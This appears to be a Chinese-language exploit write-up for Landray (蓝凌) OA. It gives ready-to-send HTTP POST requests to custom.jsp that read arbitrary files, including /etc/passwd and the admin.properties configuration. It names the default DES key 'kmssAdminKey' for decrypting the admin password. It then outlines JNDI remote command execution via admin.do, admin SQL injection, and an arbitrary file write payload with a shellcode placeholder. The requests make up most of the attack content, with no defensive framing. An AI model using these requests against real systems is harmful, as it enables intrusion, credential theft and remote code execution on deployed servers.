 0x01-任意文件读取

   访问/sys/ui/extend/varkind/custom.jsp
   
POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: host:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 27
Connection: close
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"file:///etc/passwd"}}


配合任意文件读取漏洞获取敏感信息，读取配置文件得到密钥后访问 admin.do 可利用 JNDI远程命令执行获取权限。

0x02 SSRF+jndi

   利用任意文件读取/WEB-INF/KmssConfig/admin.properties配置文件

POST /sys/ui/extend/varkind/custom.jsp HTTP/1.1
Host: host:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/plain;charset=UTF-8
Content-Length: 27
Connection: close
Cookie: JSESSIONID=03699CE5FC0E4D545368FF23E5B32BAF

var={"body":{"file":"/WEB-INF/KmssConfig/admin.properties"}}

由此获得加密的password,蓝凌OA默认为DES加密，且有个默认密钥为 kmssAdminKey，可以拿着password在在线网站上尝试解密
地址  http://tool.chacuo.net/cryptdes/

![图片](https://user-images.githubusercontent.com/118274389/223748827-8fd0d2b2-6ca3-4083-92d2-6a815e25fa21.png)

0x03-EKP后台SQL注入

后台地址admin.do
   
0x04-任意文件写入漏洞

var={"body":{"file":"/sys/search/sys_search_main/sysSearchMain.do?method=editParam"}}&fdParemNames=11&fdParameters=[shellcode]

参考：http://wiki.peiqi.tech/wiki/oa/%E8%93%9D%E5%87%8COA/%E8%93%9D%E5%87%8COA%20custom.jsp%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.html
